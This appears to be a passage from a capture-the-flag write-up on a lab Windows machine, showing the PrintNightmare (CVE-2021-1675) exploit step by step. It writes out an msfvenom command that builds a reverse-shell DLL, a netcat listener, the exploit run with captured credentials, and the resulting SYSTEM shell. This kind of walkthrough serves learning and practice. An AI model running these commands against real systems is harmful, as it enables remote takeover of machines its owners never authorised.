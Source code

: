 make sure samba is started
```bash
sudo systemctl stop smbd
sudo systemctl start smbd
```

generate dll payload, note I have output it to `/tmp` which is where I have set the root of the smb server to point to.
```bash
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=tun0 lport=443 -f dll -o /tmp/rev.dll
```

start up our listener
```bash
$ rlwrap nc -lvnp 443                             
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

```

run script
```bash
$ python3 CVE-2021-1675/CVE-2021-1675.py driver/tony:liltony@10.10.11.106 '\\10.10.14.107\smb\rev.dll'
[*] Connecting to ncacn_np:10.10.11.106[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.14.107\smb\rev.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...

```

and if no hiccups occur, receive shell!
```bash

...
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.106.
Ncat: Connection from 10.10.11.106:49491.
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system


```

## flags
From here just read the flags :)
```
user:8490****************************
administrator:bcb4****************************
```

